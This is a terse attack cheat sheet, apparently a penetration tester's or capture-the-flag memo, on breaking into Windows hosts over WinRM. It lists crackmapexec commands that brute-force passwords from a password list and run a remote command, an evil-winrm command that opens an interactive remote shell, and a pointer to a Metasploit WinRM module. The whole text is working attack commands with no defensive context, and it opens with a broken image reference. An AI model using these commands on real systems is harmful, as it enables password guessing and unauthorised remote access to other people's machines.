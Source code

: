 
crackmapexec winrm ip -u user -p /password.list 

crackmapexec winrm ip -u user -p password -x "whoami" 

then use this script 
------
evil-winrm.rb -u user -p pass -i ip 

-------
metasploit 

search winrm_script 
